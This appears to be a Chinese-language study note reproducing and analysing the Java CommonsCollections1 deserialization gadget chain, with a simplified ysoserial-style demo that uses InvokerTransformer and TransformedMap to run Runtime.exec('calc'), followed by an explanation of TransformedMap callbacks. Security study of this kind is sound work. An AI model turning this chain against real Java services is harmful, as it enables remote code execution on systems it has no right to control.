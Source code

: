[toc]



>   http://elssm.top/2021/10/27/Java-CC1%E9%93%BE%E5%A4%8D%E7%8E%B0%E4%B8%8E%E5%88%86%E6%9E%90/
>
>   https://xz.aliyun.com/t/7031

# CommonsCollections1

这里首先使用p牛进行简化后的代码来测试，直接读[ysoserial](https://github.com/frohoff/ysoserial)源码不太友好。

```java
package ysoserial.payloads;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class cc1demo {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.getRuntime()),
            new InvokerTransformer("exec",
                new Class[]{String.class},
                new Object[]{"calc"}),};

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

## 用到的接口和类

### TransformedMap

TransformedMap用于对Map做一个修饰，被修饰的Map在进行put时，会执行一次回调。

```java
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
outerMap.put("test", "xxxx");
```

这里的回调和平常的回调函数不同，这里的回调指的是一个实现了`Transformed`接口的类。
